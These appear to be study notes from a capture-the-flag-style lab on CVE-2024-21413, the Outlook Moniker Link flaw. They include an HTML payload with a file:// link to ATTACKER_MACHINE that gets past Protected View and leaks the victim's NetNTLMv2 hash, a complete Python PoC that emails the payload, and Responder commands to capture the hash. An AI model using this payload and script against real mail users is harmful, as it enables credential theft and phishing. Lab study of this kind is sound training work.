 - Outlook can render emails as HTML.
- Outlook parses hyperlinks such as HTTP and HTTPS.
- However, it also opens URLs specifying applications knows as **Moniker Links**.
- Normally, outlook will prompt a security warning for this which opens emails containing attachments, hyperlinks and similar content in read-only mode.
- We can use `file://` Moniker Link as our hyperlink.
- Since outlook renders emails as HTTP/HTTPS, we can also instruct outlook to access files on network share.
	- ```<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>```	
		- Protocol used: **SMB**
		- Uses local credentials for authentication.
		- Outlook's protected view catches and blocks it.
	- So we can modify the above by using a `!` character and some text.
		- Bypasses the outlook's protected view.
		- ```<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>```
		- The share we are accessing doesn't need to exist on the remote device.
		- An authentication attempt will happen regardless of if the share exists or not.
		- This leads to victim's windows netNTLMv2 hash being sent to the attacker.
	- Also **Remote Code Execution** (RCE) is also possible since Moniker Link uses Component Object Model (COM) on windows.
#### Exploitation
- To exploit this vulnerability, lets assume a scenario.
- Attacker = us.
- We email our victim with Moniker Link.
- **Objective:** Craft an email to the victim with Moniker Link that bypasses Outlook's "Protected View".
- In the email:
	- Client (victim) will attempt to load a file from our attacking machine.
	- Results in victim's netNTLMv2 hash being captured.
- **PoC:**
	
	```python
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

- The PoC:
	- Takes an attacker & victim email. Normally, we would need to use our own SMTP server.
	- Requires the password to authenticate.
	- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink.
	- Then, fill in the "subject", "from" and "to" fields in the email.
	- Finally, it sends the email to the mail server.
- Let's use the **Responder** to create an SMB listener on our attack machine.
	- We can also use an **Impacket server** for the above.
	- `responder -I <interface name>`
- Open the outlook app on the desktop of the vulnerable machine.
- In the room, the victim's email inbox is already set up.
- Make the above exploit in your attacking machine.
- Modify the script to point to our IP and victim's IP.
- After that, run the explot. When prompted for the attacker's email, say `attacker`.
- 